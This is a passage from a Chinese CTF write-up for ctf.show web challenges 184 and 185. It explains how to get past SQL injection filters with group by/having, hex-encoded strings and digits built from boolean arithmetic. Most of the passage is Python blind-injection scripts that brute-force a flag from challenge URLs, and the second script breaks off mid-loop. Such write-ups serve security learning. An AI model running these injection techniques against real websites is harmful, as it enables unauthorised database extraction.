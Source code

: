 ## web 184 

过滤了where，可以用group by having。过滤了引号可以用16进制

通过pass字段分组，依次比较每一位字符的16进制，盲注出整个flag

```python
#author:yu22x
import requests
import string
url="http://e48a8069-93a1-4f54-92fd-98bf6d2f2e64.challenge.ctf.show/select-waf.php"
s=string.digits+string.ascii_lowercase+"{_-}"
def asc2hex(s):
    a1 = ''
    a2 = ''
    for i in s:
        a1+=hex(ord(i))
    a2 = a1.replace("0x","")
    return a2
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    d = asc2hex(f'^ctfshow{flag+j}')
    data={
    'tableName':f' ctfshow_user group by pass having pass regexp(0x{d})'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
      break
```

## web 185

过滤了数字，可以使用布尔值构造数字，例如(true+true)=2。最后再用concat连接

```sql
mysql> select (true+true)=2;
+---------------+
| (true+true)=2 |
+---------------+
|             1 |
+---------------+
```

```python
#author:yu22x
import requests
import string
url="http://cc981786-8e5b-4934-a89c-86b6bc950e7d.challenge.ctf.show/select-waf.php"
s='0123456789abcdef-{}'
def convert(strs):
  t='concat('
  for s in strs:
    t+= 'char(true'+'+true'*(ord(s)-1)+'),'
  return t[:-1]+")"
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    d = convert(f'^ctfshow{flag+j}')
```